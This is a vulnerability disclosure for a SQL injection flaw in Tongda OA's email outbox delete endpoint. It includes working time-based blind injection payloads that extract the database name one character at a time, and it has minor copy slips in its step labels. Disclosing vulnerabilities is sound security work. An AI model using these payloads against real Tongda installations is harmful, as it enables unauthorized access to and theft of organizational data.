 SQL injection vulnerability exists in Tongda OA v2017 and versions below 11.10

official website:https://www.tongda2000.com/

version:Less than v11.10, v2017

route：/general/email/outbox/delete.php

injection parameter:$DELETE_STR



#### 	1.Vulnerability analysis

The parameter $DELETE_STR here is directly spliced into the sql statement after removing the null value. There is a sql injection point.

![.\TongDa Sql inject.assets\t1.png](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/t1.png?token=GHSAT0AAAAAACNLZOLMSWI63E34LCCSGHGQZNTDONQ)

At the same time, global parameter filtering is shown in the figure below, and only conventional injection filtering detection is performed.

![[image-20240126094241423](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126094241423.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126094241423.png?token=GHSAT0AAAAAACNLZOLMRBD2RD2Y7S3XAX2CZNTDPEQ)

#### 	2.Vulnerability verification

We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![[image-20240126094806730](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126094806730.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126094806730.png?token=GHSAT0AAAAAACNLZOLM7QTEEQQ5Z6IJUFRKZNTDPGQ)

If we replace 116 with another value such as 115, then there will be no time delay, thus proving that our injection is successful. There is a sql injection vulnerability here.

```
1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![[image-20240126095114500](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126095114500.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126095114500.png?token=GHSAT0AAAAAACNLZOLM7JYOCBZA227JNCQSZNTDPIA)

#### 	3.Exploit

Based on the above verification analysis, the SQL injection vulnerability exists. We can continue to obtain the complete name of the entire database through blind injection.

The second digit of the database is intercepted through blind injection, and the second digit is judged to be the letter d through the delay time, and the ASCII code is 100.

```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![[image-20240126095822818](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126095822818.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126095822818.png?token=GHSAT0AAAAAACNLZOLMUQBW3GOCONLUXVEMZNTDPKA)

The third digit of the database is intercepted through blind injection, and the second digit is judged to be '_' through the delay time, and the ASCII code is 95.

```
1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![[image-20240126095911470](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126095911470.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126095911470.png?token=GHSAT0AAAAAACNLZOLNNVSMUA42M2W6UASGZNTDQKQ)

The fourth digit of the database is intercepted through blind injection, and the second digit is judged to be the letter o through the delay time, and the ASCII code is 111.

```
1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126100122531.png?token=GHSAT0AAAAAACNLZOLNOH24CMBG7JKGSIU2ZNTDT2A)

The fifth digit of the database is intercepted through blind injection, and the second digit is judged to be the letter a through the delay time, and the ASCII code is 97.

```
1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![[image-20240126100029696](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126100029696.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126100029696.png?token=GHSAT0AAAAAACNLZOLNVN6ENR5FH6DJEYYQZNTDQMQ)https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126100029696.png?token=GHSAT0AAAAAACNLZOLNVN6ENR5FH6DJEYYQZNTDQMQ

In summary, the complete database name can be obtained based on this sql injection vulnerability: td_oa

